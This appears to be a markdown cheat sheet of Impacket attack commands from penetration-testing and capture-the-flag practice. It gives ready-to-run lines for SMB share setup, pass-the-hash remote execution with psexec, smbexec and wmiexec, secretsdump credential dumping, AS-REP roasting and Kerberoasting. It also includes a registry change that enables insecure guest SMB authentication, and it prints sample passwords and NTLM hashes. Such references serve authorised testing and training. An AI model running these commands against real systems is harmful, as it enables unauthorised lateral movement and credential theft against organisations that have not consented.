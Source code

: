 # Impacket Tools

## Impacket SMBServer
```
$sudo python3 impacket-smbserver -u <username> -p <password> <name of share> <location of share>
$sudo python3 impacket-smbserver -smb2support -u <username> -p <password> <name of share> <location of share>
$sudo impacket-smbserver -smb2support <name of share> `pwd`
$sudo python3 smbserver.py -smb2support files $(pwd) -username test -password test

Sample Usage: $python3 impacket-smbserver -u myusername -p secretpassword myshare $(pwd)
Tip: use $(pwd) for the current working  directory
```

 ## Map Drive from CLI
 ```
 net use f: \\10.10.14.49\files /user:ph0enix password123
 net use M: \\ip-address\share /Persistent:Yes
 ```

## PSExec
```
[Sample Usage] python3 psexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 psexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] psexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
[PTH] psexec.py INLANEFREIGHT.LOCAL/Administrator@172.16.5.5 -hashes "aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf"
```

## SMBExec
```
[Sample Usage] python3 smbexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python3 smbexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python3 smbexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## WMIExec
```
[Sample Usage] python3 wmiexec.py Administrator@10.10.10.10 (enter password when prompted)
[PWD Auth] python wmiexec.py hacklab.local/ADLab02:P@ssw0rd123@192.168.10.17
[PTH] python wmiexec.py Administrator@192.168.10.17 -hashes "aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5"
```

## MSSQLClient
```
$python3 mssqlclient.py -port 1433 -db volume -windows-auth <username>@<ip address>
```

## WMIExec
```
$python3 wmiexec.py <username@hostname>
$python3 wmiexec.py <username:password@hostname>
```

## LookupSID
```
$python3 lookupsid.py <domain/username@hostname>
$python3 lookupsid.py <domain/username:password@hostname>
```

## SecretsDumping
```
python secretsdump.py htb.local/Administrator@reel.htb.local (enter password when prompted)
```

## Windows 10 SMBShare Can Connect
[URL](https://www.youtube.com/watch?v=vyatMj1Z2NQ)
```
Regedit
Browse to: Computer\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters
Create a DWORD 32bit key: AllowInsecureGuestAuth and set to 1 for on, 0 for off
```

## GetNPUSers
Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking
```
python GetNPUsers.py htb.local/ -no-pass -usersfile domain_users.txt -format hashcat
```

## Kerberoasting
Query Domain for any Kerberoastable Users
```
python GetUserSPNs.py active.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178
```

## Kerberoast (request ticket)
Request ticket for account
```
python GetUserSPNs.py ACTIVE.htb/SVC_TGS:'GPPstillStandingStrong2k18' -dc-ip 10.129.57.178 -request -outfile user-spn.hash
```